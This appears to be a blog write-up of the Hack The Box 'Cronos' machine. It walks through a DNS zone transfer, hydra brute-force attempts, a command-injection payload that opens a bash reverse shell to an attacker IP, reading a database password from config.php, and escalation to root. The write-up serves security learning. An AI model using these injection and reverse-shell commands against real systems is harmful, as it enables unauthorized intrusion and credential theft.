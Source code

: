 ```yaml
---
layout: post
title: HTB-CRONOS(10.10.10.13)
---
```


**Note: This is another old writeup when i started to get into hacking, there is no such big explanation here as i was new to hacking to grasp more knowledge in tool and scripts**

    nmap -sT -Pn -p- -min-rate 4000 --max-retries 1 10.10.10.13
    
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

Lets enumerate port 53 (ZONE TRANSFER)

    dig axfr @10.10.10.13 

****Output****

    ; <<>> DiG 9.17.21-1-Debian <<>> axfr @10.10.10.13
    ; (1 server found)
    ;; global options: +cmd
    ;; Query time: 4287 msec
    ;; SERVER: 10.10.10.13#53(10.10.10.13) (UDP)
    ;; WHEN: Thu Feb 03 10:52:54 EST 2022
    ;; MSG SIZE  rcvd: 28
     1 server found it seems…so let’s check further
        dig axfr cronos.htb @10.10.10.13                                                                            
    
    ; <<>> DiG 9.17.21-1-Debian <<>> axfr cronos.htb @10.10.10.13
    ;; global options: +cmd
    cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
    cronos.htb.             604800  IN      NS      ns1.cronos.htb.
    cronos.htb.             604800  IN      A       10.10.10.13
    admin.cronos.htb.       604800  IN      A       10.10.10.13
    ns1.cronos.htb.         604800  IN      A       10.10.10.13
    www.cronos.htb.         604800  IN      A       10.10.10.13
    cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
    ;; Query time: 284 msec
    ;; SERVER: 10.10.10.13#53(10.10.10.13) (TCP)
    ;; WHEN: Thu Feb 03 10:51:58 EST 2022
    ;; XFR size: 7 records (messages 1, bytes 203)

Let’s add admin.cronos.htb to nano /etc/hosts

Going into browser we found a login page

Tried brute forcing with hydra

With admin

    hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.13 http-post-form "/admin.cronos.htb:username=admin&password=^PASS^:Your 
    Login Name or Password is invalid"

Without admin

    hydra -L /etc/theHarvester/wordlists/names_small.txt -P /usr/share/wordlists/rockyou.txt 10.10.10.13 http-post-form       "/admin.cronos.htb:username=^USER^&password=^PASS^:Your Login Name or Password is invalid"
    
Tried brute force but did not work.

There in admin.cronos.htb… I found a net toolv1.which had ping and traceroute tab…

Later i intercepted in burp to check.

And there was problem with the command injection

    command=ls –l&host=/var/www -- when I typed this command, I was able to get the directory and some users.

so, I injected the below command for reverse connection.and I was successful

    command=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.4/443+0>%261'%26host=

  nc -lvvp 443 - I opened my listener and got the connection
  
    Ncat: Version 7.92 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.13.
    Ncat: Connection from 10.10.10.13:42252.
    bash: cannot set terminal process group (1396): Inappropriate ioctl for device
    bash: no job control in this shell
    
    www-data@cronos:/var/www/admin$

    www-data@cronos:/var/www/admin$ ls
        ls
    config.php
    index.php
    logout.php
    session.php
    welcome.php

    www-data@cronos:/var/www/admin$ cat config.php
        cat config.php
    <?php
       define('DB_SERVER', 'localhost');
       define('DB_USERNAME', 'admin');
       define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
       define('DB_DATABASE', 'admin');
       $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
    ?>

We got the admin password.

Let’s login to my sql with this cred – nothing happened

  So uploaded linpeas.sh

There I found Laravel has permission to run a file in root mode every time..

So, I copied the content and uploaded the file with same name with my lil code change.

Then I got the connection

    nc -lvvp 443   
    Ncat: Version 7.92 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.13.
    Ncat: Connection from 10.10.10.13:35696.
    /bin/sh: 0: can't access tty; job control turned off
    
    id
    uid=0(root) gid=0(root) groups=0(root)
